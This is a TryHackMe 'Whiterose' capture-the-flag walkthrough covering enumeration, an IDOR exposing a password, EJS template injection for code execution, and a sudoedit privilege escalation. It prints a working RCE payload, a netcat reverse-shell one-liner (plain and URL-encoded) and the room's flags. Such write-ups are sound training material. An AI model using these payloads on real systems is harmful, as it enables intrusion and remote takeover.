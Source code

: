 ```yaml
---
title: "TryHackMe - Whiterose"
date: 2025-04-10 12:00:00 +0000
author: scr4tcher
categories: [TryHackMe CTF]
tags: [IDOR, reverse shell, burpsuite , EJS , SSTI, sudoedit ]

---
```



## Reconnaissance
First, I start with an nmap scan and adding `cyprusbank.thm` adress to `/etc/hosts`:

```console
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap -A -sV -sC 10.10.204.106
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-09 05:53 EDT
Nmap scan report for cyprusbank.thm (10.10.204.106)
Host is up (0.066s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:07:96:0d:c4:b6:0c:d6:22:1a:e4:6c:8e:ac:6f:7d (RSA)
|   256 ba:ff:92:3e:0f:03:7e:da:30:ca:e3:52:8d:47:d9:6c (ECDSA)
|_  256 5d:e4:14:39:ca:06:17:47:93:53:86:de:2b:77:09:7d (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-server-header: nginx/1.14.0 (Ubuntu)
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 587/tcp)
HOP RTT      ADDRESS
1   63.49 ms 10.8.0.1
2   63.63 ms cyprusbank.thm (10.10.204.106)

```
Next, I use the **ffuf** tool to perform a dictionary attack on subdomains.

```console
┌──(kali㉿kali)-[~/Desktop]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://10.10.204.106/ -H "Host:FUZZ.cyprusbank.thm" -fw 1 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.204.106/
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.cyprusbank.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 1
________________________________________________

www                     [Status: 200, Size: 252, Words: 19, Lines: 9, Duration: 69ms]
admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 76ms]

```

I add the discovered new subdomains to the `/etc/hosts` file.

I go to the page `admin.cyprusbank.thm/` and log in to Olivia Cortez's account using the credentials provided by the CTF author.

Then I use the **Gobuster** tool to scan directories and files on the page `admin.cyprusbank.thm/`.

```console
┌──(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -u http://admin.cyprusbank.thm/ -w /usr/share/wordlists/dirb/big.txt -t 50 -x php,html.txt -e
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://admin.cyprusbank.thm/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html.txt
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
http://admin.cyprusbank.thm/Login                (Status: 200) [Size: 2195]
http://admin.cyprusbank.thm/Search               (Status: 302) [Size: 28] [--> /login]
http://admin.cyprusbank.thm/login                (Status: 200) [Size: 2195]
http://admin.cyprusbank.thm/logout               (Status: 302) [Size: 28] [--> /login]
http://admin.cyprusbank.thm/messages             (Status: 302) [Size: 28] [--> /login]
http://admin.cyprusbank.thm/search               (Status: 302) [Size: 28] [--> /login]
http://admin.cyprusbank.thm/secci�               (Status: 400) [Size: 1103]
http://admin.cyprusbank.thm/secci�.php           (Status: 400) [Size: 1107]
http://admin.cyprusbank.thm/secci�.html.txt      (Status: 400) [Size: 1112]
http://admin.cyprusbank.thm/settings             (Status: 302) [Size: 28] [--> /login]
Progress: 61407 / 61410 (100.00%)
===============================================================
Finished
===============================================================

```


I navigate to the page `admin.cyprusbank.thm/messages/?c=5` and notice that the URL parameter can be manipulated. I change it to ?c=8 to access another message. This demonstrates an **[Insecure Direct Object Reference (IDOR)](https://portswigger.net/web-security/access-control/idor)** vulnerability, which allows me to access resources (in this case, private messages) without proper authorization. Upon doing so, I receive the following message content:

![message8](/images/whiterose/message8.jpg)

In the message, I find the login credentials for the user `Gayle Bev`, including the password: `p~]P@5!6;rs558:q`. Using this information, I log into her account through the admin panel, successfully gaining access to the next level of the application.


After logging into Gayle Bev’s account, I navigate to the settings section at `admin.cyprusbank.thm/settings`, where I notice a form that allows password changes for clients. I intercept the HTTP request using Burp Suite for further analysis. When I remove the password value from the submitted request, the server responds with the following error message:

![burpejs](/images/whiterose/burpejs.jpg)

## User flag

I search for information online about potential exploits related to EJS and come across an interesting article discussing the topic [Server side template injection RCE (Cve-2022-29078)](https://eslam.io/posts/ejs-server-side-template-injection-rce/).

The vulnerability allows an attacker to inject and execute unauthorized code on the server by manipulating the data passed to the template. If user input is directly passed to the template without proper validation, it may lead to unintended code execution.

I use the payload provided in the article to test whether it will execute successfully in my case.
```
name=test&password=test&settings[view options][outputFunctionName]=x;return global.process.mainModule.require('child_process').execSync('whoami');//
```

![burptestpayload](/images/whiterose/burptestpayload.jpg)

As observed, the server is vulnerable.

I can now exploit the vulnerability to obtain a shell. I use a [reverse shell generator](https://www.revshells.com) to proceed.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.21.77 8888 >/tmp/f
```
Initially, the request failed to go through due to an encountered error. However, after URL encoding the payload, I was able to successfully obtain a reverse shell.

My entire payload looks like this:

```
name=test&password=test&settings[view options][outputFunctionName]=x;return global.process.mainModule.require('child_process').execSync('%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%30%2e%38%2e%32%31%2e%37%37%20%38%38%38%38%20%3e%2f%74%6d%70%2f%66');//
```

After gaining the shell, I can now read the first flag.

**FLAG : THM{4lways_upd4te_uR_d3p3nd3nc!3s}**

## Root Access



```
SHELL=/bin/bash script -q /dev/null
```

To escalate privileges to root, I begin by checking the `web` user's `sudo` permissions using `sudo -l`. I discover that the user is allowed to run `sudoedit` without a password on the following file:

```console
web@cyprusbank:~/app$ sudo -l
sudo -l
Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

I leverage this by setting the `EDITOR` environment variable to a command that will read the contents of the root flag file:

```console
web@cyprusbank:~/app$ export EDITOR="cat -- /root/root.txt"
export EDITOR="cat -- /root/root.txt"

```
Then, I execute:

```console
web@cyprusbank:~/app$ sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
sudoedit: --: editing files in a writable directory is not permitted
THM{4nd_uR_p4ck4g3s}
server {
  listen 80;
    
  server_name admin.cyprusbank.thm;
    
  location / {
    proxy_pass http://localhost:8080;
    proxy_http_version 1.1;
    proxy_set_header Upgrade $http_upgrade;
    proxy_set_header Connection 'upgrade';
    proxy_set_header Host $host;
    proxy_cache_bypass $http_upgrade;
  }
}
sudoedit: /root/root.txt unchanged
sudoedit: /etc/nginx/sites-available/admin.cyprusbank.thm unchanged

```

Although `sudoedit` reports that no changes were made, the command successfully reads and displays the **root flag**

**FLAG : THM{4nd_uR_p4ck4g3s}**